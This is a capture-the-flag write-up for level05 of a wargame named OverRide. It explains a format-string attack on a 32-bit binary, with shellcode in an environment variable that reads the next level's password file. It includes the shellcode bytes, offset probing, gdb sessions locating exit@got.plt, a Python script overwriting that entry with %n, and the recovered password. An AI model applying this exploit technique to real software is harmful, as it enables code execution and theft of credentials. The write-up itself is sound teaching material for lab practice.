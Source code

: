 # Level05

Looking at the source code, we have a very simple binary that will print a buffer (in an unsecured manner) that gets filled via a call to fgets. There is a XOR between 32 and each character if they're in uppercase, that will convert them to lowecase. A very simple trick we could do would be very similar to [rainfall level5](https://github.com/SERAC-SGM/rainfall-42/tree/main/level05) :

- We craft a payload that will show the next password, and store it in an env variable
- We change the address of exit in the global offset table (got) by the address of the env variable using a format string attack
- We enjoy the next level (no)

We can simply reuse the python code of rainfall level5, but this time instead of calling a function, we will call the address of the env variable as previously said. Unlike the function though, this address will most likely change each time we edit the variable so we'll have to recalculate the values in our exploit. That means this exploit won't work out of the box.

We crafted a very cute little shellcode in the last level, so we'll update and reuse it here :

    export PAYLOAD=$(python -c 'print "\x90"*100 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass"')

Now, we need to find the offset of our format string attack (everything is explained in detail in rainfall levels 3 trough 5) :

    level05@OverRide:~$ ./level05 
    aaaa %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
    aaaa 0x64 0xf7fcfac0 0xf7ec3add 0xffffd61f 0xffffd61e (nil) 0xffffffff 0xffffd6a4 0xf7fdb000 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 

We can see we need to edit the 10th %p (--> %10$p).

Next, we need the address of our PAYLOAD variable, and the address of the exit() function in the got.

    (gdb) disas main
    [...]
        0x08048513 <+207>:	call   0x8048370 <exit@plt>
    [...]
    (gdb) disas 0x8048370
    Dump of assembler code for function exit@plt:
    0x08048370 <+0>:	jmp    *0x80497e0
    0x08048376 <+6>:	push   $0x18
    0x0804837b <+11>:	jmp    0x8048330
    End of assembler dump.
    (gdb) x 0x80497e0
    0x80497e0 <exit@got.plt>:	0x08048376

First one, now the PAYLOAD address

    (gdb) break main
    Breakpoint 1 at 0x8048449
    (gdb) r
    Starting program: /home/users/level05/level05 

    Breakpoint 1, 0x08048449 in main ()
    (gdb) x/500s $esp
    [...]
    0xffffdef3:	 "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322\353\062[\260\005\061\311̀\211\306\353\006\260\001\061\333̀\211\363\260\003\203\354\001\215\f$\262\001̀1\333\071\303t\346\260\004\263\001\262\001̀\203\304\001\353\337\350\311\377\377\377/home/users/level06/.pass"
    [...]
    (gdb) x/s 0xffffdefb
    0xffffdefb:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\061\322\353\062[\260\005\061\311̀\211\306\353\006\260\001\061\333̀\211\363\260\003\203\354\001\215\f$\262\001̀1\333\071\303t\346\260\004\263\001\262\001̀\203\304\001\353\337\350\311\377\377\377/home/users/level06/.pass"

Nailed it. Now, like rainfall level5, we slice the payload address in 2 parts : ffff and defb. We just need to play around with the numbers to get the final address right. Once we get the whole address :

    Breakpoint 1, 0x0804850c in main ()
    (gdb) x 0x80497e0
    0x80497e0 <exit@got.plt>:	0xffffdefb

We're good to go. Here is the python code that was used to overflow exit() :

    import struct

    PAYLOAD = 0xffffdefb
    EXIT_PLT = 0x80497e0

    def pad(s):
        return s+"Y"*(100-len(s))

    exploit = ""
    exploit += struct.pack("I",EXIT_PLT)
    exploit += struct.pack("I",EXIT_PLT+2)
    exploit += "aaaa"
    exploit += "%10$57071x"
    exploit += "%10$n"
    exploit += "%8452x"
    exploit += "%11$n"

    print pad(exploit)

Only one thing to remember : The last characters written are 64y for some reason

Now that our exploit is ready, we can simply run the binary :

    level05@OverRide:~$ python payload.py > payload
    level05@OverRide:~$ ./level05 < payload
    [...]
    64yh4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

Once we remove the previously mentioned "64y", we have our password : 

h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
